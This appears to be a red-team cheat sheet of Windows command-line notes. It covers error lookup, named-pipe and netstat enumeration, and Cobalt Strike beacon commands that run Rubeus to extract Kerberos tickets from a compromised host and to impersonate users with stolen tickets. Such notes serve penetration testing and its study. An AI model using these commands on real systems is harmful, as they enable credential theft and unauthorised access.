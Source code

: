 
## Windows Command Line tools

### Debugging & Helper commands.

#### View error message

```powershell
[-] could not upload file: 32 - ERROR_SHARING_VIOLATION
C:\>net helpmsg 32
The process cannot access the file because it is being used by another process.
```

### Recon & Enumeration (Windows)

#### List named pipes (SMB)

```powershell
PS C:\> ls \\.\pipe\
```

#### tcp connections

```powershell
PS> netstat -anop tcp
```

```powershell
PS> netstat -anop tcp | findstr 1337
```



## Kerberos Tickets

### Extract TGT's from compromised host

#### Rubeus

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe monitor /interval:10 /nowrap
beacon> jobkill
```

### Request NetOnly Kerberos Ticket

#### Rubeus

Below will open a command prompt with the NetOnly ticket. We can then use steal\_token \<PID> and impersonate that user.

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly /
program:C:\Windows\System32\cmd.exe /ticket<user-ticket>
```
